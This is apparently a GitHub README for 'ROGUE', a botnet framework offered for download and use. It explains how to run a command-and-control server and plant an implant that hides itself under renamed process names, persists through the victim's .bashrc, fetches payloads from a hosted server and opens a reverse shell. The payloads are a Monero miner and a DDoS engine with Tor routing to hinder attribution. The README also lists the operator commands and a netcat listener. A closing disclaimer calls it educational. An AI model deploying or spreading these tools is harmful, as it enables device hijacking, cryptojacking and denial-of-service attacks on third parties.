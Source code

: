 # r0gue

ROGUE is a manually-deployed peer-to-peer and command-and-control (C2) botnet framework built for secure multi-device orchestration. It supports encrypted communication using AES, with optional peer-to-peer fallback if the primary C2 is unreachable.  
ROGUE supports implants on Linux laptops, Raspberry Pi, Termux (Android), and iOS environments.

---

## Installation

To clone ROGUE from your Kali system, run:

```bash
git clone https://github.com/ekomsSavior/rogue.git
cd rogue
```

Install dependencies manually:

```bash
sudo apt update
sudo apt install python3 
sudo apt install  python3-pycryptodome  
```

---

## File Structure

- `rogue_c2.py` – Encrypted command-and-control server
- `rogue_implant.py` – Bot implant for manual deployment with trigger handling, payload loader, and stealth logic
- `payloads/` – Folder containing executable modules such as:
  - `mine.py`: Real CPU-based cryptocurrency miner with pool config and resource control
  - `ddos.py`: Threaded DDoS engine supporting HTTP, TCP SYN, and UDP floods

---

## Usage

### Start the C2 Server

On your Kali controller machine:

```bash
python3 rogue_c2.py
```

### Deploy a Bot Implant

1. Copy `rogue_implant.py` to the target device.
2. Edit the `C2_HOST` variable in the script to match your controller’s IP.
3. Run the implant:

```bash
python3 rogue_implant.py
```

The implant will:
- Connect to the C2 server using AES-encrypted commands
- Attempt peer-to-peer fallback discovery if the C2 is unreachable
- Stealth itself using renamed process titles and hidden payload storage
- Persist by injecting itself into the target’s `.bashrc`

### Host Payloads

To serve payloads for bots to fetch:

```bash
cd payloads/
python3 -m http.server 8000
```
## Command Syntax

You can interact with connected bots using the terminal interface. Commands include:

```text
load_payload mine.py        # Instruct bot to download mine.py from payload server
run_payload mine.py         # Run the loaded mining script
reverse_shell               # Start reverse shell connection to C2 (must be listening on port 9001)
trigger_mine                # Instruct all bots to mine using mine.py
trigger_ddos                # Instruct all bots to launch DDoS using ddos.py
```

Tor Support (Optional)

Built into ddos.py, you can enable routing DDoS traffic through Tor SOCKS5 by setting: 

```bash
USE_TOR = True
```
This uses PySocks to route all flood traffic through 127.0.0.1:9050, the default local Tor proxy.

Install Tor + PySocks:

```bash
sudo apt install tor
pip3 install pysocks
```

Then start Tor:

```bash
sudo systemctl start tor@default
```

And run the DDoS module as usual:

```bash
python3 ddos.py trigger_ddos <target> <port> <duration> <threads> <mode>
```


---

### Reverse Shell

To receive a reverse shell connection:

```bash
nc -lvnp 9001
```

---

## Maintaining Bots

- ROGUE implants require Python3 and internet/network access
- Ensure `rogue_c2.py` is running to accept bot connections
- Keep your `payloads/` server online and accessible
- Update your payloads regularly for improved capabilities or evasion

---

## Payload Details

### `mine.py`

- Real CPU-based Monero miner
- Supports pool config, wallet input, and resource throttling
- Threaded hashing with runtime duration control

### `ddos.py`

- Supports multiple attack modes:
  - HTTP GET flood with user-agent rotation
  - UDP flood to arbitrary ports
  - TCP SYN flood
- CLI-style arguments allow flexible targeting from C2
- Tor Benefits in DDoS Mode
  - IP obfuscation via exit nodes
  - Makes attribution and detection harder during stress testing
  - Compatible with all http, tcp, and udp flood types

---

## Disclaimer

Do not deploy ROGUE on any device, network, or system you do not own or have explicit permission to operate on. Unauthorized use of this software may violate laws. This framework is provided for educational and ethical research purposes only. The developers assume no liability and provide this software without warranty or support.
